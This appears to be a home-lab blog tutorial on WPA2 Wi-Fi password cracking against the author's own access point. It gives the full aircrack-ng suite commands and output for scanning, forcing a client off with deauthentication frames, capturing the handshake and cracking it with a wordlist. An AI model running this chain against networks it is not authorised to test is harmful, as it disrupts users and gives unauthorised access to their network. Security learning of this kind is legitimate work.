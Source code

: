 ```yaml
---
layout: post
title: Wifi Hacking Part 1
subtitle: Deauthentication & WPA Handshake Cracking
tags: [WIFI]
---
```


# Wifi Hacking Part 1

## WPA Handshake

A WPA handshake is a series of frames that are sent between a AP and a client to authenticate the client. These frame have the ability to be cracked using various tools. Once these frames are crack the WIFI password can be obtained for that network. I ran  `sudo airmon-ng start INTERFACE` before starting this attack chain

I started off with a basic capture to see what AP's are around. I have a access point of Zon that I will be targeting 

```
sudo airodump-ng wlan0mon

CH  8 ][ Elapsed: 0 s ][ 2023-04-28 22:17 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 34:98:B5:47:AB:AE   -1        0        0    0   8   -1                    <length:  0>                                                    
 34:98:B5:3E:51:A0  -52        3        0    0   9  130   WPA2 CCMP   PSK  Woot                                                        
 60:38:E0:93:28:43  -60        1        0    0   7  130   WPA2 CCMP   PSK  Dog                                                        
 30:46:9A:A6:34:76  -27        5        0    0   1  130   WPA2 CCMP   PSK  Zon                                                            
 D2:B4:F7:BE:12:DA  -63        2        0    0   1  360   WPA2 CCMP   PSK  <length:  0>                                                    
 5C:64:8E:BB:B3:31  -65        3        0    0   1  405   WPA2 CCMP   PSK  SUMMER                                                 
 5C:64:8E:BB:B4:75  -65        4        0    0   1  405   WPA2 CCMP   PSK  Snow  
```

### Handshake Capture With De-Auth
One way to capture a WPA handshake is to DeAuth an already connected client. In the snip below I ran `airodump-ng` to target the bssid of my router `--bssid`, on channel 1 `-c 1`, and wrote it to a file called zon.cap `-w zon.cap`. The output shows that there is one client connected to the Zon AP and is sending frames.

```
sudo airodump-ng wlan0mon --bssid 30:46:9A:A6:34:76 -c 1 -w zon.cap

CH  1 ][ Elapsed: 2 mins ][ 2023-04-28 21:45 ]

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 30:46:9A:A6:34:76  -16 100     1357     1511    0   1  130   WPA2 CCMP   PSK  Zon                                                        

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 30:46:9A:A6:34:76  FC:77:74:8E:3F:B4  -26   24e- 6e     0     1622  PMKID
```

One option to get the WPA handshake would be to wait until the client disconnects and then reconnects. This could happen if the devices leaves the AP's range and then comes back into its range, or the device reboot's, or really anything that could cause a WPA handshake. Another option is to us `aireplay-ng` and send some DeAuth frames to tell the AP to disconnect from the client. To do this, continue to run the  `airodump-ng` capture and send a DeAuth frame. In the snip below that is exactly what happens. Running `aireplay-ng` sends a DeAuth frame with `-0 1` to my access point `-a 30:46:9A:A6:34:76`, with the connected host `-c FC:77:74:8E:3F:B4` on the wlan0mon interface.

```
┌──(zonifer㉿linux)-[~]
└─$ sudo aireplay-ng -0 1 -a 30:46:9A:A6:34:76 -c FC:77:74:8E:3F:B4 wlan0mon
21:44:50  Waiting for beacon frame (BSSID: 30:46:9A:A6:34:76) on channel 1
21:44:50  Sending 64 directed DeAuth (code 7). STMAC: [FC:77:74:8E:3F:B4] [ 0|42 ACKs]
```

Back on the `airodump-ng` output up at the top `WPA handshake: 30:46:9A:A6:34:76 ` is new. Signifying that a new handshake has occurred. I have successfuly de-authenticated the host and when it tried to connect back captured the handshake.

```
CH  1 ][ Elapsed: 2 mins ][ 2023-04-28 21:45 ][ **WPA handshake: 30:46:9A:A6:34:76** 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 30:46:9A:A6:34:76  -16 100     1357     1511    0   1  130   WPA2 CCMP   PSK  Zon                                                        

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 30:46:9A:A6:34:76  FC:77:74:8E:3F:B4  -26   24e- 6e     0     1622  PMKID  
```

Sticking with the `air` suite I'll use `aircrack-ng`, a custom word list `-w wordlist.txt` (a small rockyou), an essid of Zon `-e Zon`, a bssid of 30:46:9A:A6:34:76 `-b 30:46:9A:A6:34:76`, on the recent capture called zon.cap-01.cap `zon.cap-01.cap` In just a short amount of time this is cracked and the wifi password is found. 

```
sudo aircrack-ng -w wordlist.txt -e Zon -b 30:46:9A:A6:34:76 zon.cap-01.cap

                               Aircrack-ng 1.6 

      [00:00:00] 8/102 keys tested (100.82 k/s) 

      Time left: 0 seconds                                       7.84%

                           KEY FOUND! [ Zonifer1 ]


      Master Key     : 8C 29 D8 06 12 FE 70 86 7D 7E 48 6F 09 9C 6B BC 
                       14 11 C0 96 EE DA 4B FC B4 65 DA 6E AE 08 B5 FC 

      Transient Key  : 1D F2 27 91 A5 35 41 CE FD 8B 69 C5 26 75 3A 07 
                       2A 79 8E 77 0C 01 CB 20 29 FB 0B 1B C8 3A 42 96 
                       64 F1 16 2A 83 20 8F 75 63 A8 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : BB 06 27 45 F6 9E 24 3F 76 AF 24 93 6A 3C 61 51 
```
